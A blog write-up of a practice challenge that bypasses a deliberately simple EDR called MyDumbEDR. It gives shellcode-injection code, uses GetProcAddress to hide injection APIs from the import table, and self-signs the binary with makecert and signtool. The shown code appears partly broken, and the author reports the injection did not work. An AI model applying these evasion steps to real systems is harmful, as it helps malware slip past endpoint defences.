 ```yaml
---
layout: post
title: Bypass MyDumbEDR
subtitle: There's lots to learn!
tags: [CyberSec]
comments: true
---
```



I attempted to find a straightforward way to bypass this EDR, avoiding more complex techniques such as Syshwipers3 or DLL unhooking. In this exploration, I focused on simplicity to navigate through the challenges posed by the Endpoint Detection and Response (EDR) system. Indeed, my primary goal was to gain a comprehensive understanding of the EDR, exploring its functionality and potential for creating one.

## What about The Remote Injector Agent ?

This EDR rely primarily on *inline API hooking*.

So, when we are trying to execute any functions using high level WinAPI, functions from *ntdll.dll* are indirectly triggered. The EDR applies hooks over "some of them" to detect for malicious calls.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221528.png)
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131221550.png)

The first hook we will try to bypass is the hook on  `ntAllocateVirtualMemory`, as you can see, the EDR will check if the program want to allocate in Read-Write-Execute (RWX).
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131155650.png)

So to bypass this we just need to allocate the memory in *Read-Write* then when it's done we can change the protection to add the *Execute* and that's it. 

```c++
PVOID remoteBuffer = VirtualAllocEx_f(processHandle, NULL, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

WriteProcessMemory_f(processHandle, remoteBuffer, shellcode, shellcode_len, NULL);

rv = VirtualProtect_f(shellcode, shellcode_len, PAGE_EXECUTE_READWRITE, &oldprotect);
```

## What about the Static Analyzer Agent ?

The static analyser will check for three things:

- [x] If the binary is signed
- [x] If the *OpenProcess*, *VirtualAllocEx*, *WriteProcessMemory* and *CreateRemoteThread* functions are listed in the **IAT** `(Import Address Table)`
- [x] If the string SeDebugPrivilege is present in the binary


#### 0x1 - Code signing

First of all, we are going to sign our binary. We need to know that the EDR will only check if the binary is signed or not, so we just need to sign our binary and it's will be fine.
![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131230908.png)

So, we are going to generate a self-signed certificate :
```
makecert -r -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

```
# 1.3.6.1.5.5.7.3.3 = Code Signing
# 1.3.6.1.4.1.311.10.3.24 = Protected process verification
# 1.3.6.1.4.1.311.10.3.6 = Windows System component verification


makecert -pe -n "CN=MyRootCA,O=TechSolutions,L=SanFrancisco,S=California,C=US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

We import the CA certificate :
```md
certutil -user -addstore Root CA.cer
```

Then we are going to convert our certificate in the pfx format :
```md
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

And finally, we are going to sign our binary :
```md
signtool sign /v /fd SHA256 /f SPC.pfx ShellcodeInject.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231309-1.png)

#### 0x2 - Hiding from the Import Address Table (IAT)

The IAT is a lookup table used when the application is calling functions in a different module. When the file is executed, the Windows Loader will fill in the IAT with the appropriate function addresses.

So, to see which functions are in the IAT, we can use the `dumpbin.exe`

```md
dumpbin /imports C:\Windows\system32\notepad.exe
```

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131163110.png)


So to hide our functions in our binary we are going to obfuscate them.

```c++
typedef BOOL(WINAPI* pVirtualProtect)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flNewProtect,
    PDWORD lpflOldProtect
);

typedef HANDLE(WINAPI* pCreateRemoteThread)(
    HANDLE                 hProcess,
    LPSECURITY_ATTRIBUTES  lpThreadAttributes,
    SIZE_T                 dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID                 lpParameter,
    DWORD                  dwCreationFlags,
    LPDWORD                lpThreadId
);

typedef LPVOID(WINAPI* pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);

typedef NTSTATUS(WINAPI* pNtOpenProcess)(
    PHANDLE            ProcessHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PCLIENT_ID         ClientId
    );

typedef BOOL(WINAPI* pWriteProcessMemory)(
    HANDLE  hProcess,
    LPVOID  lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T  nSize,
    SIZE_T* lpNumberOfBytesWritten
);
```

```cpp
pVirtualAllocEx VirtualAllocEx_f = reinterpret_cast<pVirtualAllocEx>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx"));

pCreateRemoteThread CreateRemoteThread_f = reinterpret_cast<pCreateRemoteThread>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread"));

pWriteProcessMemory WriteProcessMemory_f = reinterpret_cast<pWriteProcessMemory>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory"));

pNtOpenProcess NtOpenProcess_f = reinterpret_cast<pNtOpenProcess>(
	GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenProcess"));

pVirtualProtect VirtualProtect_f = reinterpret_cast<pVirtualProtect>(
	GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualProtect"));
```


#### 0x3 - Token privileges ?

To open a handle to another process and obtain full access rights, we **must** enable the `SeDebugPrivilege` privilege.

if we request `PROCESS_ALL_ACCESS` when calling `OpenProcess`, the operation may require `SeDebugPrivilege`...

*Wait wait wait ...*

Before checking what exaclty the function do, I was thinking that the EDR will check if the binary has the `SeDebugPrivilege` enabled 😅. So, this function is a simple form of pattern matching and does not directly check if the binary itself has the `SeDebugPrivilege` enabled during runtime. The function is more about inspecting the static content of a binary file for a specific string, but it doesn't verify whether the binary, when executed, will have `SeDebugPrivilege` enabled.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131172033.png)

So we just need to obfuscate strings with *SeDebugPrivilege* and that's it.

![Alt text](https://rfc6592.github.io/assets/img/EDR/Pastedimage20240131231827.png)


Upon attempting to execute the *ShellCode.exe* it seems that the Calculator application is not launching as expected. Feel free to contact me with any questions or comments. See you soon!

If you're interested in the code, you can find it on GitHub: 
https://github.com/RFC6592/ChallengeDumbEDR

## Source 

* (Cocomelonc, 2024), https://cocomelonc.github.io/tutorial/2021/12/13/malware-injection-12.html
* (Medium, 2024), https://medium.com/@singhr780/how-to-do-code-signing-using-self-signed-certificate-c51fe6884532
* (Sektor7), Red Team Operator: Malware Development Essentials Course 